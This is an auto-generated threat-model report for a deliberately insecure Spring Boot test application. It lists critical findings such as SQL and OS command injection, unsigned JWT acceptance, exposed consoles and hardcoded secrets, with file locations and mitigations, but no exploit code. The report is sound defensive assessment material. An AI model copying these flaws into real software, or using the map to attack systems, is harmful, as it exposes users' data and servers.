# Threat Model - docs

_Generated by appsec-advisor v0.5.0-beta (analysis v3)_


---

> | | |
> |---|---|
> | **Project** | Appsec Verification Target v0.0.1-SNAPSHOT |
> | **Description** | Local-only application security verification fixture |
> | **Repository** | git@github\.com:matthiasrohr/insecure-spring-`app.git` |
> | **Homepage** | https://github.com/matthiasrohr/insecure-spring-app |
> | **Runtime** | Java 17, spring-boot-starter-web, spring-boot-starter-data-jpa, spring-boot-starter-security, spring-boot-starter-actuator, spring-boot-starter-thymeleaf |

---

## Changelog

_Append-only history of assessment runs. Most recent first._

| Version | Date | Mode | Depth | Reasoning | Baseline → Current | Δ Threats | Code | Note |
|--------|---------------------|--------|--------|--------------|------------------|----------------|--------|---------------|
| v1 | 2026-07-16 20:06 CEST | full | standard | sonnet-economy | _(initial)_ | 46 total | - | first full scan |

---

## Table of Contents

- [Management Summary](#management-summary)
- [Critical Attack Tree](#critical-attack-tree)
1. [System Overview](#1-system-overview)
   - [Scope](#scope)
2. [Architecture Diagrams](#2-architecture-diagrams)
   - [2.1 System Context](#21-system-context)
   - [2.2 Container Architecture](#22-container-architecture)
   - [2.3 Components](#23-components)
   - [2.4 Technology Architecture](#24-technology-architecture)
3. [Attack Walkthroughs](#3-attack-walkthroughs)
   - [3.1 Insecure JWT Verification in Authentication Service](#31-insecure-jwt-verification-in-authentication-service)
   - [3.2 SQL Injection in Legacy Auth Endpoint](#32-sql-injection-in-legacy-auth-endpoint)
   - [3.3 SQL Injection in Input Validation and Data Access Layer](#33-sql-injection-in-input-validation-and-data-access-layer)
   - [3.4 Hardcoded Secrets Baked into Container Image in Dockerfile](#34-hardcoded-secrets-baked-into-container-image-in-dockerfile)
   - [3.5 Mass Assignment Privilege Escalation in Profile Controller](#35-mass-assignment-privilege-escalation-in-profile-controller)
   - [3.6 All Crypto Endpoints Exposed Without Authentication in Security Config](#36-all-crypto-endpoints-exposed-without-authentication-in-security-config)
   - [3.7 H2 Database Console Publicly Exposed in Security Config](#37-h2-database-console-publicly-exposed-in-security-config)
   - [3.8 Forgeable Custom Authentication Tokens in Homegrown Cipher](#38-forgeable-custom-authentication-tokens-in-homegrown-cipher)
4. [Assets](#4-assets)
5. [Attack Surface](#5-attack-surface)
   - [5.1 Unauthenticated Entry Points (90)](#51-unauthenticated-entry-points-90)
   - [5.2 Authenticated Entry Points (1)](#52-authenticated-entry-points-1)
6. [Security Architecture](#6-security-architecture)
   - [6.1 Security Control Overview](#61-security-control-overview)
   - [6.2 Identity and Authentication Controls](#62-identity-and-authentication-controls)
   - [6.3 Session and Token Controls](#63-session-and-token-controls)
   - [6.4 Authorization Controls](#64-authorization-controls)
   - [6.5 Query Construction and Data Access Controls](#65-query-construction-and-data-access-controls)
   - [6.6 Input Boundary Validation Controls](#66-input-boundary-validation-controls)
   - [6.7 Output Encoding and Rendering Controls](#67-output-encoding-and-rendering-controls)
   - [6.8 Browser and Cross-Origin Controls](#68-browser-and-cross-origin-controls)
   - [6.9 Cryptography Secrets and Data Protection](#69-cryptography-secrets-and-data-protection)
   - [6.10 File Parser and Outbound Request Controls](#610-file-parser-and-outbound-request-controls)
   - [6.11 Operations Runtime and Supply Chain Controls](#611-operations-runtime-and-supply-chain-controls)
   - [6.12 Real-time and Not Applicable Controls](#612-real-time-and-not-applicable-controls)
   - [6.13 Defense-in-Depth Summary](#613-defense-in-depth-summary)
7. [Weakness Register](#7-weakness-register)
8. [Findings Register](#8-findings-register)
9. [Abuse Cases](#9-abuse-cases)
10. [Mitigation Register](#10-mitigation-register)
11. [Out of Scope](#11-out-of-scope)
- [Appendix: Run Statistics](#appendix-run-statistics)
- [Appendix A - Vektor Taxonomy](#appendix-a-vektor-taxonomy)

---

## Management Summary

### Verdict

🔴 Not production-ready. The app ships deliberate weaknesses at every layer - anyone on the internet can take over admin accounts, read all customer records, or run commands on the server without logging in. Structural changes are needed before deployment.

**Risk distribution:** 🔴 Critical: 15 · 🟠 High: 24 · 🟡 Medium: 2 · 🟢 Low: 0 · **Total: 41**<br/>**Assessment evidence:** 40 confirmed-exploitable finding(s) · 2 implementation weakness(es) · 3 design weakness(es)


<br/>

**The highest-risk scenarios if left unaddressed:**

<blockquote style="border-left: 3px solid #dc2626; background: #fef2f2; padding: 16px 20px; margin: 0;">

- **Server takeover** — An attacker runs shell commands on the server through the tool lookup feature without any login, gaining full control of the host. *(🔴 [F-007](#f-007))*
- **Admin account takeover** — The legacy admin board is open to anyone online, letting an attacker make any account an administrator without logging in. *(🔴 [F-002](#f-002), 🔴 [F-003](#f-003) → [W-001](#w-001))*
- **All customer passwords visible** — A single call to the legacy login service returns every user's password in plain text with no login required. *(🔴 [F-008](#f-008), 🔴 [F-009](#f-009))*
- **Secrets exposed to any visitor** — The monitoring page exposes database passwords, secret keys, and cloud access tokens to anyone on the internet. *(🔴 [F-011](#f-011), 🔴 [F-012](#f-012))*
- **Database open to the internet** — The built-in database console requires no login, letting any visitor read, modify, or delete all stored records. *(🔴 [F-015](#f-015), 🔴 [F-016](#f-016) → [W-001](#w-001), [W-003](#w-003))*

</blockquote>

<br/>

Add authentication to admin features, remove hardcoded credentials from source, and prevent unauthorized command execution - then reassess for production readiness.

### Top Weaknesses

The systemic root-cause problems behind the findings - the classes to fix, not just individual bugs. Each links to the full [Weakness Register](#7-weakness-register) with its findings and remediation.

- 🔴 **[W-001](#w-001) - Endpoints are reachable without enforced authentication** (Critical) - Sensitive API routes and real-time channels are exposed without an enforced authentication check at the endpoint boundary. _Proven by [F-002](#f-002), [F-015](#f-015)._
- 🔴 **[W-002](#w-002) - Input handling lacks enforced boundary validation** (Critical) - Request handlers do not validate input against one enforced server-side schema or allowlist at the boundary - validation is either absent on the vulnerable parameters or limited to rejecting select… _Proven by [F-010](#f-010), [F-023](#f-023)._
- 🔴 **[W-003](#w-003) - Authorization is implemented route by route** (Critical) - Authorization depends on per-handler checks instead of a policy boundary that consistently enforces role, ownership, and tenant scope. _Proven by [F-014](#f-014), [F-016](#f-016), [F-028](#f-028) (+4 more)._

### Security Posture & Top Threats

**Figure 1 - Architecture & Top Threats**

Architecture tiers top-to-bottom (External Actors → Client → Application → Data) with the top threats per component. The in-figure legend on the right explains the attack scenarios, severity dots and symbols.



**Figure 2 - Risk Flow: Actor → Tier → Impact**

Heatmap: **actors** (left) → **architecture tiers** (middle, Client → Application → Data) → **impact** (right). Numbered red arrows ①–⑤ are the threats enumerated in the Top Threats table below.



**Threat actors.** The actors below drive the numbered attack paths in the figures above.

- **Anonymous Internet Attacker** — no account; registers in seconds when needed; drives ① Hardcoded Secrets & Weak Cryptography, ② Insecure Query Construction & Data Access, ③ Remote Code Execution (unsafe eval), ④ Sensitive File & Secret Exposure.
- **Authenticated Internet Attacker** — owns a regular account; logged in; drives ⑤ Broken Authorization & Access Control.

**5 structural threats**, grouped by weakness class - each row is one threat, not one finding. *Threat Description* states the general architectural weakness (STRIDE in brackets); *Findings* lists the concrete instances, each linked to [§8 Findings Register](#8-findings-register) with its component; *Risk & Impact* combines severity with business consequence.

| # | Threat Description | Findings (→ Component) | Risk & Impact | Fix |
|---|------------------------------------|------------------------------------------------|------------------------------------|--------|
| <a id="path-auth-bypass"></a>① | **Hardcoded Secrets & Weak Cryptography** _(S·E)_<br/>Multiple authentication layers accept unsigned or structurally forged credentials, allowing any anonymous caller to impersonate any user or claim admin authority without a valid credential. | <span style="white-space:nowrap">🔴&nbsp;[F-002](#f-002)</span> - Missing Authentication for Critical Function (`LegacyAdminBoardController.java:29`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;Authorization and Access Control Layer<br/><span style="white-space:nowrap">🔴&nbsp;[F-003](#f-003)</span> - Insecure JWT Verification (`LegacyJwtVerifier.java:15`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;Authentication Service<br/><span style="white-space:nowrap">🔴&nbsp;[F-004](#f-004)</span> - Forgeable Custom Authentication Tokens (`HomegrownCipher.java:8`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span>&nbsp;Cryptography and Token Service<br/><span style="white-space:nowrap">🔴&nbsp;[F-012](#f-012)</span> - Hardcoded Secrets Baked into Container Image (`Dockerfile:13`) (`Dockerfile:13`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-017](#f-017)</span> - Base64 Session Token Forgeable for Any User (`HomegrownSessionService.java:21`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;Authentication Service<br/><span style="white-space:nowrap">🟠&nbsp;[F-020](#f-020)</span> - Hand-rolled XOR / repeating-key cipher (`HomegrownCipher.java:14`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span>&nbsp;Cryptography and Token Service<br/><span style="white-space:nowrap">🟠&nbsp;[F-022](#f-022)</span> - Predictable OTP from Non-Cryptographic PRNG (`LegacyTokenService.java:10`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span>&nbsp;Cryptography and Token Service<br/><span style="white-space:nowrap">🟠&nbsp;[F-030](#f-030)</span> - MD5 Password Hash Used in Registration Path (`RegistrationController.java:55`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;Authentication Service<br/><span style="white-space:nowrap">🟠&nbsp;[F-032](#f-032)</span> - Hardcoded Symmetric Encryption Keys (`LegacyCryptoService.java:13`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span>&nbsp;Cryptography and Token Service<br/><span style="white-space:nowrap">🟠&nbsp;[F-033](#f-033)</span> - Unsalted MD5 Password Hashing (`LegacyPasswordService.java:15`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span>&nbsp;Cryptography and Token Service<br/><span style="white-space:nowrap">🟡&nbsp;[F-044](#f-044)</span> - Deterministic AES/ECB Encryption without IV (`LegacyCryptoService.java:17`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span>&nbsp;Cryptography and Token Service<br/><span style="white-space:nowrap">🟠&nbsp;[F-048](#f-048)</span> - JWT verification does not pin the accepted algorithm (`LegacyJwtVerifier.java:17`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;Authentication Service | 🔴 **Critical**<br/>Full Admin Takeover | <span style="white-space:nowrap">● [M-002](#m-002)</span><br/><span style="white-space:nowrap">● [M-003](#m-003)</span> |
| <a id="path-injection"></a>② | **Insecure Query Construction & Data Access** _(T·I)_<br/>Multiple data access objects build queries by concatenating caller input directly into native SQL, letting an unauthenticated attacker dump all rows or bypass login. | <span style="white-space:nowrap">🔴&nbsp;[F-005](#f-005)</span> - SQL Injection in Legacy Auth Endpoint (`LegacySqliteUserStore.java:64`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;Authentication Service<br/><span style="white-space:nowrap">🔴&nbsp;[F-006](#f-006)</span> - SQL Injection (`OrderLookupDao.java:22`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span>&nbsp;Input Validation and Data Access Layer<br/><span style="white-space:nowrap">🔴&nbsp;[F-007](#f-007)</span> - OS Command Injection (`ToolController.java:18`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-025](#f-025)</span> - XML External Entity Injection (`XmlPreviewController.java:22`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application | 🔴 **Critical**<br/>Customer Data Exfiltration · Full Admin Takeover | <span style="white-space:nowrap">● [M-005](#m-005)</span><br/><span style="white-space:nowrap">● [M-006](#m-006)</span> |
| <a id="path-remote-code-execution"></a>③ | **Remote Code Execution (unsafe eval)** _(E)_<br/>The tool lookup feature passes a caller-controlled name parameter directly to an OS shell invocation with no sanitization or authentication requirement. | <span style="white-space:nowrap">🔴&nbsp;[F-007](#f-007)</span> - OS Command Injection (`ToolController.java:18`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application | 🔴 **Critical**<br/>Full Server Compromise | <span style="white-space:nowrap">● [M-007](#m-007)</span> |
| <a id="path-sensitive-data-exposure"></a>④ | **Sensitive File & Secret Exposure** _(I)_<br/>Credentials, signing keys, and user passwords are reachable without authentication via direct calls to unguarded service features and the monitoring surface. | <span style="white-space:nowrap">🔴&nbsp;[F-008](#f-008)</span> - Unauthenticated Endpoint Returns All Users With Cleartext Passwords (`LegacySqliteAuthController.java:50`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;Authentication Service<br/><span style="white-space:nowrap">🔴&nbsp;[F-009](#f-009)</span> - Unprotected Vault Credential Recovery Endpoint Exposes Plaintext Passwords (`CustomCryptoController.java:45`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span>&nbsp;Cryptography and Token Service<br/><span style="white-space:nowrap">🔴&nbsp;[F-010](#f-010)</span> - Unauthenticated Path Traversal Read (`FileReadController.java:19`) <span style="white-space:nowrap">→&nbsp;[C-07](#c-07)</span>&nbsp;File Storage<br/><span style="white-space:nowrap">🔴&nbsp;[F-011](#f-011)</span> - Actuator Endpoints Publicly Exposed with Full Secret Values (`SecurityConfig.java:33`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🔴&nbsp;[F-012](#f-012)</span> - Hardcoded Secrets Baked into Container Image (`Dockerfile:13`) (`Dockerfile:13`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-023](#f-023)</span> - Path Traversal Write via Unsanitized Upload Filename (`BusinessFileStorage.java:23`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-026](#f-026)</span> - Server-Side Request Forgery (`IntegrationController.java:23`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-029](#f-029)</span> - Plaintext Password Logged on Every Login (`CredentialLoggingFilter.java:25`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;Authentication Service<br/><span style="white-space:nowrap">🟠&nbsp;[F-036](#f-036)</span> - Legacy Credential Database Baked Into Container Image Layers (`legacy-auth.sqlite`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span>&nbsp;Data Persistence Layer<br/><span style="white-space:nowrap">🟡&nbsp;[F-046](#f-046)</span> - Unauthenticated public-feed exposes internal storageName and classification fie… (`DocumentSearchController.java:33`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span>&nbsp;Input Validation and Data Access Layer | 🔴 **Critical**<br/>Customer Data Exfiltration | <span style="white-space:nowrap">● [M-008](#m-008)</span><br/><span style="white-space:nowrap">● [M-009](#m-009)</span> |
| <a id="path-privilege-escalation"></a>⑤ | **Broken Authorization & Access Control** _(E·I)_<br/>Profile updates bind untrusted request fields directly to the user entity, allowing any authenticated user to write the role field and grant themselves administrator rights. | <span style="white-space:nowrap">🔴&nbsp;[F-013](#f-013)</span> - Mass Assignment Privilege Escalation (`ProfileController.java:44`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;Authorization and Access Control Layer<br/><span style="white-space:nowrap">🔴&nbsp;[F-014](#f-014)</span> - All Crypto Endpoints Exposed Without Authentication (`SecurityConfig.java:45`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span>&nbsp;Cryptography and Token Service<br/><span style="white-space:nowrap">🔴&nbsp;[F-016](#f-016)</span> - H2 Database Console Publicly Exposed (`SecurityConfig.java:32`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-024](#f-024)</span> - World-Writable File Permissions on All Container Files (`Dockerfile:26`) (`uploads`) <span style="white-space:nowrap">→&nbsp;[C-07](#c-07)</span>&nbsp;File Storage<br/><span style="white-space:nowrap">🟠&nbsp;[F-028](#f-028)</span> - Missing Authorization (`AdminReportController.java:35`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;Authorization and Access Control Layer<br/><span style="white-space:nowrap">🟠&nbsp;[F-037](#f-037)</span> - Missing Authorization (`LegacyAdminBoardController.java:37`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;Authorization and Access Control Layer<br/><span style="white-space:nowrap">🟠&nbsp;[F-040](#f-040)</span> - Insecure Direct Object Reference (`OrderAccessController.java:24`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;Authorization and Access Control Layer<br/><span style="white-space:nowrap">🟠&nbsp;[F-042](#f-042)</span> - Unauthenticated cross-user order lookup via arbitrary email (`OrderSearchController.java:24`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span>&nbsp;Input Validation and Data Access Layer<br/><span style="white-space:nowrap">🟠&nbsp;[F-043](#f-043)</span> - Admin Report Endpoint Unauthenticated (`SecurityConfig.java:34`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application | 🔴 **Critical**<br/>Full Admin Takeover | <span style="white-space:nowrap">● [M-013](#m-013)</span><br/><span style="white-space:nowrap">● [M-014](#m-014)</span> |

_STRIDE: S spoofing · T tampering · R repudiation · I information disclosure · D denial of service · E elevation of privilege. Risk, findings, components, impact and Fix are derived deterministically; only the one-line weakness description is authored._

**Verified attack chains.** 3 fully viable ([AC-T-002](#ac-t-002), [AC-T-003](#ac-t-003), [AC-T-005](#ac-t-005)); 1 partially blocked ([AC-T-006](#ac-t-006)). These chains combine individual findings into end-to-end exploitation paths verified step-by-step against the code - see [§9 Abuse Cases](#9-abuse-cases) for the per-step breakdown and blocking mitigations.

### Top Mitigations

Highest-impact P1/P2 mitigations - 21 of 43 qualifying (46 total). Full detail in [§10 Mitigation Register](#10-mitigation-register). All 21 mitigation(s) that fix a Critical finding are always listed here.

| # | Component | Mitigation | Addresses | Effort |
|---|----------------------|------------------------------------------------|------------------------------------------------|------|
| **1** | [C-01](#c-01) — Spring Boot Web Application | ● [M-007](#m-007) — Eliminate shell interpolation in ToolController by passing arguments as discrete array elements (`ToolController.java:18`) | 🔴 [F-007](#f-007) — OS Command Injection (`ToolController.java`) | Low |
| **2** | [C-01](#c-01) — Spring Boot Web Application | ● [M-011](#m-011) — Restrict Actuator endpoints to internal network and require authentication; disable show-values in production (`SecurityConfig.java:33`) | 🔴 [F-011](#f-011) — Actuator Endpoints Publicly Exposed with Full Secret Values (`src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java`) | Low |
| **3** | [C-01](#c-01) — Spring Boot Web Application | ● [M-016](#m-016) — Disable the H2 console in production and remove its permitAll SecurityConfig rule (`SecurityConfig.java:32`) | 🔴 [F-016](#f-016) — H2 Database Console Publicly Exposed (`SecurityConfig.java`) | Low |
| **4** | [C-01](#c-01) — Spring Boot Web Application | ● [M-012](#m-012) — Remove hardcoded secrets from Dockerfile and inject at runtime from a secrets manager (`Dockerfile:13`) | 🔴 [F-012](#f-012) — Hardcoded Secrets Baked into Container Image (Dockerfile) | Medium |
| **5** | [C-02](#c-02) — Authentication Service | ● [M-003](#m-003) — Replace parseClaimsJwt with parseClaimsJws and enforce a signed-token allowlist in LegacyAdminAuditController (`LegacyJwtVerifier.java:15`) | 🔴 [F-003](#f-003) — Insecure JWT Verification (`src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java`) | Low |
| **6** | [C-02](#c-02) — Authentication Service | ● [M-005](#m-005) — Replace string-concatenated SQL in authenticateRaw with a PreparedStatement (`LegacySqliteUserStore.java:64`) | 🔴 [F-005](#f-005) — SQL Injection in Legacy Auth Endpoint (`LegacySqliteUserStore.java`) | Low |
| **7** | [C-02](#c-02) — Authentication Service | ● [M-008](#m-008) — Remove the /api/legacy-sqlite/users endpoint and migrate SQLite passwords to bcrypt (`LegacySqliteAuthController.java:50`) | 🔴 [F-008](#f-008) — Unauthenticated Endpoint Returns All Users With Cleartext Passwords (`src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteAuthController.java`) | Medium |
| **8** | [C-03](#c-03) — Authorization and Access Control Layer | ● [M-002](#m-002) — Enforce Spring Security default-deny authentication policy across all endpoints (`LegacyAdminBoardController.java:29`) | 🔴 [F-002](#f-002) — Missing Authentication for Critical Function (`src/main/java/com/example/appsecverificationtarget/legacyadmin/LegacyAdminBoardController.java`) | Low |
| **9** | [C-03](#c-03) — Authorization and Access Control Layer | ● [M-013](#m-013) — Replace direct JPA entity binding in PUT /api/profile/me with a restricted DTO that excludes role and admin fields (`ProfileController.java:44`) | 🔴 [F-013](#f-013) — Mass Assignment Privilege Escalation (`ProfileController.java`) | Low |
| **10** | [C-04](#c-04) — Input Validation and Data Access Layer | ● [M-006](#m-006) — Replace string-concatenated native queries with parameterized queries in OrderLookupDao (`OrderLookupDao.java:22`) | 🔴 [F-006](#f-006) — SQL Injection (`src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderLookupDao.java`) | Low |
| **11** | [C-05](#c-05) — Cryptography and Token Service | ● [M-014](#m-014) — Remove `permitAll()` for /api/crypto/** and /api/legacy-crypto/** and require authentication or restrict to ADMIN role (`SecurityConfig.java:45`) | 🔴 [F-014](#f-014) — All Crypto Endpoints Exposed Without Authentication (`SecurityConfig.java`) | Low |
| **12** | [C-05](#c-05) — Cryptography and Token Service | ● [M-004](#m-004) — Replace XOR token issuance with HMAC-SHA256 or JWT RS256 signed with a rotatable secret (`HomegrownCipher.java:8`) | 🔴 [F-004](#f-004) — Forgeable Custom Authentication Tokens (`HomegrownCipher.java`) | Medium |
| **13** | [C-05](#c-05) — Cryptography and Token Service | ● [M-009](#m-009) — Remove the plaintext password recovery from the API response and restrict /credentials to authenticated administrators (`CustomCryptoController.java:45`) | 🔴 [F-009](#f-009) — Unprotected Vault Credential Recovery Endpoint Exposes Plaintext Passwords (`src/main/java/com/example/appsecverificationtarget/crypto/CustomCryptoController.java`) | Medium |
| **14** | [C-06](#c-06) — Data Persistence Layer | ● [M-015](#m-015) — Disable H2 console in production and restrict it to localhost in development (`SecurityConfig.java:32`) | 🔴 [F-015](#f-015) — Unauthenticated H2 Console Access (`config/SecurityConfig.java`) | Low |
| **15** | [C-07](#c-07) — File Storage | ● [M-010](#m-010) — Canonicalize and jail the resolved path inside runtime/documents/ before reading (`FileReadController.java:19`) | 🔴 [F-010](#f-010) — Unauthenticated Path Traversal Read (`FileReadController.java`) | Low |
| **16** | [C-01](#c-01) — Spring Boot Web Application | ◕ [M-042](#m-042) — Restrict /api/admin/report to users with `ROLE_ADMIN` and require authentication (`SecurityConfig.java:34`) | 🔴 [F-043](#f-043) — Admin Report Endpoint Unauthenticated (`SecurityConfig.java`) | Low |
| **17** | [C-02](#c-02) — Authentication Service | ◕ [M-046](#m-046) — Pin accepted JWT verification algorithms (`LegacyJwtVerifier.java:17`) | 🔴 [F-048](#f-048) — JWT verification does not pin the accepted algorithm (`src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java`) | Medium |
| **18** | [C-03](#c-03) — Authorization and Access Control Layer | ◕ [M-027](#m-027) — Restrict GET /api/admin/report to `ROLE_ADMIN` with @PreAuthorize and remove the permitAll rule (`AdminReportController.java:35`) | 🔴 [F-028](#f-028) — Missing Authorization (`AdminReportController.java`) | Low |
| **19** | [C-03](#c-03) — Authorization and Access Control Layer | ◕ [M-036](#m-036) — Restrict POST /legacy/admin/users/{id}/delete to `ROLE_ADMIN` or remove the legacy admin board entirely (`LegacyAdminBoardController.java:37`) | 🔴 [F-037](#f-037) — Missing Authorization (`LegacyAdminBoardController.java`) | Low |
| **20** | [C-04](#c-04) — Input Validation and Data Access Layer | ◕ [M-041](#m-041) — Require authentication and enforce owner-only access on GET /api/orders/search (`OrderSearchController.java:24`) | 🔴 [F-042](#f-042) — Unauthenticated cross-user order lookup via arbitrary email (`src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderSearchController.java`) | Low |
| **21** | [C-05](#c-05) — Cryptography and Token Service | ◕ [M-031](#m-031) — Move all symmetric keys to a secrets manager and inject via environment variables or @Value properties (`LegacyCryptoService.java:13`) | 🔴 [F-032](#f-032) — Hardcoded Symmetric Encryption Keys (`src/main/java/com/example/appsecverificationtarget/crypto/LegacyCryptoService.java`) | Medium |

*22 additional P1/P2 mitigations capped from the leader-board · 3 P3 backlog items in [§10 Mitigation Register](#10-mitigation-register). Sorted by priority (P1 first), then component, then leverage (most findings first), severity (Critical first), and effort (Low first).*

### Operational Strengths

Operational controls rated Adequate or Partial - grouped into broad clusters (full per-control breakdown in [§6](#6-security-architecture)). Clusters demoted to Weak by open Critical/High findings appear in [§6](#6-security-architecture) instead, not here.

| Strength | What's in Place | Effectiveness |
|----------------------|----------------------|----------------------|
| **Container & Supply-Chain Hardening** | _Build-time and runtime hardening - minimal base image, non-root execution, dependency inventory._<br/>Lockfile hygiene<br/>Container Image Hardening | ✅ Adequate |
| **Hardened HTTP Stack** | _Browser-facing HTTP hardening - security headers, cookie flags, cross-origin policy, and abuse-protection limits._<br/>Security Response Headers<br/>CORS Policy | ⚠️ Partial - Bypassed by 3 High finding(s) of the kind this cluster is supposed to prevent - e.g.<br/>🟠 [F-018](#f-018)<br/>🟠 [F-019](#f-019)<br/>🟠 [F-026](#f-026). |


**Bottom line:** These controls narrow specific attack surfaces but none eliminates a Critical finding on its own.

---

<a id="critical-attack-chain"></a>
<a id="critical-attack-tree"></a>
## Critical Attack Tree

The root is the worst-case attacker goal; below it, each capability branch groups the Critical findings that achieve it. Branches feed the goal by OR - any single path suffices.



**Findings** (full detail in [§8 Findings Register](#8-findings-register)): [F-002](#f-002) · [F-003](#f-003) · [F-004](#f-004) · [F-005](#f-005) · [F-006](#f-006) · [F-007](#f-007) · [F-008](#f-008) · [F-009](#f-009) · [F-010](#f-010) · [F-011](#f-011) · [F-012](#f-012) · [F-013](#f-013) · [F-014](#f-014) · [F-015](#f-015) · [F-016](#f-016)

---

## 1. System Overview

**Repository:** git@github\.com:matthiasrohr/insecure-spring-`app.git`

### Scope

This threat model covers 7 components of insecure-spring-app: **Spring Boot Web Application**, **Authentication Service**, **Authorization and Access Control Layer**, **Input Validation and Data Access Layer**, **Cryptography and Token Service**, **Data Persistence Layer**, **File Storage**.

All 7 modeled components received full STRIDE threat analysis.

**Out of scope:** third-party hosted dependencies, browser runtime, operating-system kernel, and the underlying network infrastructure.

---

## 2. Architecture Diagrams

### 2.1 System Context

